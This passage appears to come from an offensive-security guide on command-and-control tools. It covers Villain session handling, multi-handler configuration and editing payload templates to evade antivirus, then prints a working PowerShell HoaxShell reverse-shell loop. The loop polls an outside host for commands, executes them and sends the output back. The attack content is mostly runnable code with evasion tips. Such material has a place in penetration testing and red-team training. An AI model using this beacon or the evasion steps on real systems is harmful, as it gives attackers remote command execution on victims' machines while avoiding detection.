 ### 7.5 Advanced Villain Techniques

```bash
# Session persistence and metadata
# Villain automatically stores session metadata
# Allows re-establishment of HoaxShell sessions

# Purge all session metadata
Villain > purge

# Custom obfuscation for AV evasion
# Edit templates in /Core/payload_templates/
# Replace with obfuscated versions

# Background execution with compression
villain -p 65001 --quiet --compress

# Multi-handler configuration
# config.yml example:
handlers:
  - port: 8080
    type: http
    auth: user:pass
  - port: 443
    type: https
    cert: cert.pem
    key: key.pem
```

### 7.6 HoaxShell Integration

HoaxShell payloads use HTTP(S) to establish beacon-like reverse shells, making them particularly effective against restrictive firewalls:

```powershell
# Example HoaxShell payload structure (simplified)
$s='192.168.1.100:8080';
$i='session-id';
while($true){
    $c=(Invoke-WebRequest -UseBasicParsing -Uri $s -Headers @{"Authorization"=$i}).Content;
    if($c -ne 'None') {
        $r=Invoke-Expression $c 2>&1 | Out-String;
        Invoke-WebRequest -Uri $s -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($r))
    }
    Start-Sleep -Seconds 0.8
}
```

## 8. Sliver Framework: Modern Go-Based C2 with Advanced Pivoting
